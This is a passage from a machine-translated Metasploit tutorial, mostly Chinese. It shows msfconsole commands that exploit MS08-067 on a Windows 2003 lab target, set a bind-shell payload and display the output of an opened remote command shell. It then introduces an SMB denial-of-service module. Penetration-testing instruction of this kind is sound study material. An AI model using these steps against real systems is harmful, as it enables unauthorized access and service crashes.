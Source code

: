     同样， `Id`值 `0`表明我们不需要指定目标操作系统。

3.  Once we have completed the exploit loading the process, the next step will be to set up the payload. We will again set up a `tcp_bind` shell on the target machine, as we discussed earlier.

    ```
    msf exploit(ms08_067_netapi) > set payload
    windows/shell/bind_tcp
    payload => windows/shell/bind_tcp
    msf exploit(ms08_067_netapi) > set LHOST 192.168.56.101
    LHOST => 192.168.56.101 
    ```

    现在，我们的漏洞和有效载荷已经准备好了。下一步也是最后一步是使用 `exploit`命令。让我们分析一下执行结果：

    ```
    msf exploit(ms08_067_netapi) > exploit
    [*] Started bind handler
    [*] Automatically detecting the target...
    [*] Fingerprint: Windows 2003 SERVER - Service Pack 2 - lang:English
    [*] Selected Target: Windows 2003 Server SP2 English (AlwaysOn NX)
    [*] Attempting to trigger the vulnerability...
    [*] Sending stage (240 bytes) to 192.168.56.102
    [*] Command shell session 1 opened (192.168.56.101:43408 -> 192.168.56.102:4444) at 2011-11-02 21:25:30 +0530
    C:\WINDOWS\system32> 
    ```

答对 了我们与目标有一个外壳连接。这使我们可以通过命令行访问目标机器。您可以看到 Metasploit 对于穿透目标机器是多么强大。它确实在更大程度上简化了我们的任务。让我们快速查看一下我们在这个配方中使用的漏洞。

## 它是如何工作的。。。

此模块通过服务器服务利用路径规范化代码 `netapi32.dll`中的解析漏洞。此模块能够绕过某些操作系统和 service Pack 上的 NX。必须使用正确的目标来防止服务器服务（以及同一进程中的十几个其他服务）崩溃。

# Windows 7/Server 2008 R2 SMB 客户端无限循环

针对 Windows 7 和 Windows Server 2008 的漏洞攻击非常少。SMB 客户端无限循环就是导致系统崩溃的漏洞之一。此漏洞不会提供任何会话或 shell 连接，但值得讨论。我们将在*了解 Windows DLL 注入缺陷*配方中处理 Windows 7 中的 DLL 注入缺陷。

Microsoft Windows Server 2008 R2 和 Windows 7 内核中的 SMB 客户端允许远程 SMB 服务器和中间人攻击者通过 SMBv1 或 SMBv2 响应数据包造成拒绝服务（无限循环和系统挂起）。该数据包在 NetBIOS 标头中包含不正确的长度值，或者在该响应数据包的末尾包含额外的长度字段。此不正确的标头值是该漏洞的主要原因。

## 准备好了吗

Metasploit 包含一个辅助模块 `auxiliary/dos/windows/smb/ms10_006_negotiate_response_loop`，可用于攻击 SMB 服务器并导致拒绝服务。攻击向量通过将 UNC 路径传递到网页并请求用户执行它来工作。一旦用户打开共享文件，系统将完全崩溃，目标将被迫重新启动。

## 怎么做。。。

要开始使用这个辅助模块，我们必须执行 `use`命令以及模块的路径。然后，我们将继续设置所需的参数并执行模块。让我们继续实际实施这些步骤：

